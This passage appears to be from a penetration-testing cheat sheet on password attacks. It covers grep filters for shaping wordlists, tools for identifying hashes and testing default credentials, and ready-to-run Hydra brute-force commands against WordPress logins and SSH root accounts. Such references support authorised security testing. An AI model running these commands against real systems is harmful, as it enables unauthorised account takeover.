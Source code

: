 | Exclude Dictionary Words                   | `grep -v -f dictionary.txt wordlist.txt`                 | `-f` reads patterns from a file. `dictionary.txt` should contain a list of common dictionary words, one per line.                                                                                                                                                                                                                                                                                                         |
| Combination of Requirements                | `grep -E '^.{8,}$' wordlist.txt \| grep -E '[A-Z]'`      | This command filters a wordlist to meet multiple password policy requirements. It first ensures that each word has a minimum length of 8 characters (`grep -E '^.{8,}$'`), and then it pipes the result into a second `grep` command to match only words that contain at least one uppercase letter (`grep -E '[A-Z]'`). This approach ensures the filtered passwords meet both the length and uppercase letter criteria. |
## Hash identify

```
# https://github.com/noraj/haiti
haiti hash
```

## Test for default credentials

```
# https://github.com/ztgrace/changeme
./changeme.py example.com
```

```
# https://github.com/x90skysn3k/brutespray
See documentation
```

## Hydra

Hydra is a command-line tool for online password attacks, such as website login pages and ssh.

### General format for website attacks:

```
hydra -L <username list> -p <password list> [host] http-post-form "<path>:<form parameters>:<failed login message>"
```

### Wordpress

Attack WordPress login page with a known username, success parameter S= instead of failure parameter, verbose output:

```
hydra -l [username] -P /usr/share/wordlists/rockyou.txt [host] http-post-form "/wp-admin/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:S=http%3A%2F%2F[host]%2Fwp-admin%2F" -V
```

### SSH

```
# default
hydra -l root -P /usr/share/wordlists/fasttrack.txt [host] ssh

# no standard port
hydra -s 22022 -l root -P /usr/share/wordlists/fasttrack.txt [host] ssh

# with a username wordlist and ports
hydra -s 22022 -L userlist.txt -P /usr/share/wordlists/fasttrack.txt [host] ssh -t 4  -v
```
